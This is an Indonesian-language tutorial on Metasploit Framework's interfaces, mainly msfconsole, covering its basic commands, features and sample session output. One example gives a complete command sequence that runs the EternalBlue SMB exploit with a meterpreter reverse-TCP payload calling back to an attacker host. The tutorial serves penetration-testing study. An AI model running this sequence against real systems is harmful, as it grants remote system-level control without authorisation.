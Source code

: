 # Antarmuka Metasploit Framework

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

Jenis-jenis Antarmuka Metasploit:

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## A. MSFconsole – Antarmuka Utama Metasploit

1. Menjalankan MSFconsole:

   ```
   msfconsole
   ```

   Saat dijalankan, akan muncul banner:

   ```
   =[ metasploit v6.4.56-dev                          ]
   + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
   + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
   + -- --=[ 9 evasion                                       ]

   Metasploit Documentation: https://docs.metasploit.com/
   ```

   2. Struktur Dasar Perintah di MSFconsole

   | Perintah | Fungsi |
   |:--:|:--:|
   | `search <NAMA>` | Mencari `exploit`, `payload`, `dll`. |
   | `use <MODUL>` | Memilih modul yang akan digunakan. |
   | `info` | Menampilkan detail tentang modul yang sedang digunakan. |
   | `show options` | Melihat konfigurasi parameter modul. |
   | `set <PARAMETER> <NILAI>` | Mengatur nilai parameter modul. |
   | `exploit` atau `run` | Menjalankan exploit atau modul. |

   3. Contoh Penggunaan MSFconsole:

   ```
   search windows/smb
   use exploit/windows/smb/ms17_010_eternalblue
   show options
   set RHOSTS <IP_TARGET>
   set LHOST <IP_ATTACKER>
   set PAYLOAD windows/meterpreter/reverse_tcp
   exploit
   ```

## B. Fitur Tambahan di MSFconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis. |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya. |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background. |
| Session Interaction | Gunakan `sessions -i <ID>` untuk membuka kembali sesi eksploitasi. |

## C. Contoh Output dari MSFconsole:

```
msf6 > sessions

Active sessions
===============

Id  Name  Type                   Information               Connection
--  ----  ----                   -----------               ----------
1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## D. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.
